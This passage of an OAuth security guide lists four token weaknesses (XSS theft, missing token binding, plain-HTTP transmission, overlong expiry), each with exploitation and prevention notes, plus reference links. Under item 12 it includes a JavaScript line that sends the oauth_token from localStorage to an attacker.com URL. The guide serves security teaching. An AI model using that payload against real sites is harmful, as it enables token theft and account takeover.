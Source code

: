 
#### **12. Token Hijacking via XSS**
- **Issue**: Tokens are vulnerable to theft via XSS.  
- **Exploitation**:  
  - Inject malicious scripts to steal tokens.  
  - Example:  
    ```javascript
    document.location='https://attacker.com/?token='+localStorage.getItem('oauth_token');
    ```
- **Prevention**:  
  - Implement strong XSS protections and sanitize user inputs.  

---

#### **13. Lack of Token Binding**
- **Issue**: Tokens are not bound to the client or user session.  
- **Exploitation**:  
  - Use stolen tokens on different devices or sessions.  
  - Example: Replay tokens from one session to another.  
- **Prevention**:  
  - Implement token binding using mechanisms like DPoP (Demonstrating Proof of Possession).  

---

#### **14. Insecure Token Transmission**
- **Issue**: Tokens are transmitted over unencrypted channels (HTTP).  
- **Exploitation**:  
  - Intercept tokens via MITM attacks.  
  - Example: Capture tokens from HTTP requests.  
- **Prevention**:  
  - Always use HTTPS for token transmission.  

---

#### **15. Misconfigured Token Expiry**
- **Issue**: Tokens have excessively long expiry times.  
- **Exploitation**:  
  - Use expired tokens to maintain access.  
  - Example: Reuse tokens long after they should have expired.  
- **Prevention**:  
  - Use short-lived tokens and refresh tokens with limited lifetimes.  

---

- https://sallam.gitbook.io/sec-88/web-appsec/auth0-misconfigurations
- https://book.hacktricks.wiki/en/pentesting-web/oauth-to-account-takeover.html
- https://labs.detectify.com/writeups/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/#current-state-and-assumptions-about-oauth-credential-leakage
1. 🔗 [OAuth Security Guide - PortSwigger](https://portswigger.net/web-security/oauth?utm_source=chatgpt.com)  
2. 🔗 [Descope Blog - OAuth Misconfigurations](https://www.descope.com/blog/post/5-oauth-misconfigurations?utm_source=chatgpt.com)  
3. 🔗 [Doyensec Blog - Common OAuth Vulnerabilities](https://blog.doyensec.com/2025/01/30/oauth-common-vulnerabilities.html?utm_source=chatgpt.com)  
4. 🔗 [IETF OAuth 2.0 Security BCP](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-security-topics)  
5. 🔗 [OAuth 2.0 Threat Model - RFC 6819](https://datatracker.ietf.org/doc/html/rfc6819)  
6. 🔗 [Google Developers - OAuth Best Practices](https://developers.google.com/identity/protocols/oauth2/web-server?utm_source=chatgpt.com)  
7. 🔗 [Microsoft OAuth Security Best Practices](https://learn.microsoft.com/en-us/azure/active-directory/develop/security-best-practices-for-apps?utm_source=chatgpt.com)  
8. 🔗 [Auth0 - OAuth Security](https://auth0.com/blog/oauth-security-deep-dive/?utm_source=chatgpt.com)
9. https://portswigger.net/web-security/oauth
10. https://www.descope.com/blog/post/5-oauth-misconfigurations